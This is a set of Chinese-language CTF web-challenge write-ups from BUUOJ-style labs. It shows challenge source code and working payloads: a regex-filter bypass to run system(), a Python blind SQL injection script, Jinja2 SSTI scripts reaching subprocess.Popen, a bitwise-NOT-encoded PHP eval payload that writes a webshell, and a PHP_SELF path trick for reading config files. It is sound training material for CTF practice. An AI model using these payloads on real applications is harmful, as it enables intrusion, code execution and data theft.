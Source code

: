## [BSidesCF 2019]Kookie
根据提示,修改cookie
```
monster:admin
```
![image](https://user-images.githubusercontent.com/81904597/115979059-3793dc00-a5b6-11eb-810f-e0a50bd9f6f4.png)

得到回显 set-cookie:设置username
```
monster:admin;username:admin
```
![image](https://user-images.githubusercontent.com/81904597/115979070-44183480-a5b6-11eb-85e1-2aa1baea061b.png)
## [极客大挑战 2019]RCE ME
题目源码
```
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
    $json = $_REQUEST['cmd'];

    if (!is_string($json)) {
        echo 'Hacking attempt detected<br/><br/>';
    } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
        echo 'Hacking attempt detected<br/><br/>';
    } else {
        echo 'Attempting to run command:<br/>';
        $cmd = json_decode($json, true)['cmd'];
        if ($cmd !== NULL) {
            system($cmd);
        } else {
            echo 'Invalid input';
        }
        echo '<br/><br/>';
    }
}

?>
```
```
?cmd=%0a{"cmd":"/bin/cat /home/rceservice/flag"%0a}
```
https://blog.csdn.net/rfrder/article/details/110573955

## [WUSTCTF2020]颜值成绩查询
过滤了空格的盲注，这里直接贴payload
```
import requests

url = 'http://f4efb6bb-bd98-43f6-b5f0-33f3dac0e142.node3.buuoj.cn/?stunum='

flag=''
for i in range(1,50):
    min=32
    max=125
    while 1:
        j=min+(max-min)//2
        if min==j:
            flag+=chr(j)
            print(flag)
            break

        payload="if(ascii(substr((select/**/value/**/from/**/flag),%d,1))<%d,1,2)"%(i,j)

        r=requests.get(url=url+payload).text
        #print(r)

        if 'your score is: 100' in r:
            max=j
        else :
            min=j
```
## [CSCCTF 2019 Qual]FlaskLight
查看源代码提示 search get传参
![image](https://user-images.githubusercontent.com/81904597/115979184-0ec01680-a5b7-11eb-86a2-e0787dd7b43c.png)
然后我们准备寻找os类
```
{{[].__class__.__base__.__subclasses__()}}
```
无奈找不到,然后看一眼wp，需要找存在Popen的类来执行命令
#查找可以利用的类 利用subprocess.Popen执行命令
```
import requests
import re
import html
import time

index = 0
for i in range(170, 1000):
    try:
        url = "http://878e7c4d-d15f-432c-bcb4-d327685a1f55.node3.buuoj.cn/?search={{''.__class__.__mro__[2].__subclasses__()[" + str(i) + "]}}"
        r = requests.get(url)
        res = re.findall("<h2>You searched for:<\/h2>\W+<h3>(.*)<\/h3>", r.text)
        time.sleep(0.1)
        # print(res)
        # print(r.text)
        res = html.unescape(res[0])
        print(str(i) + " | " + res)
        if "subprocess.Popen" in res:
            index = i
            break
    except:
        continue
print("indexo of subprocess.Popen:" + str(index))
```
贴一个查找类的通用脚本
```
import requests
import html
import time

for i in range(0,300):
    time.sleep(0.06)
    url='http://878e7c4d-d15f-432c-bcb4-d327685a1f55.node3.buuoj.cn/?search={{\'\'.__class__.__mro__[2].__subclasses__()[%d]}}' %(i)
    r = requests.get(url)
    print(url)
    if "subprocess.Popen" in html.unescape(r.text):
        print(i)
        break
```
```
?search={{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```
## [极客大挑战 2019]RCE ME
一开始给了源码
```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}
// ?>
```
明显的无数字字母rce，但是长度要在40以内
所以只能使用取反
先尝试执行phpinfo()
```
(~%8F%97%8F%96%91%99%90)();
```
![image](https://user-images.githubusercontent.com/81904597/115979236-56df3900-a5b7-11eb-9ad3-42ea1015211c.png)

禁用了一堆命令执行的函数,但是可以写木马
(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6);
能连shell但是执行不了命令
使用插件bypass(心酸)
![image](https://user-images.githubusercontent.com/81904597/115979252-68284580-a5b7-11eb-802a-6f9a816ccaec.png)
![image](https://user-images.githubusercontent.com/81904597/115979256-70808080-a5b7-11eb-8c51-9b25deb4dba1.png)
## [Zer0pts2020]Can you guess it?
```
<?php
include 'config.php'; // FLAG is defined in config.php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}
$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
```
```
/index.php/config.php/%80?source

```
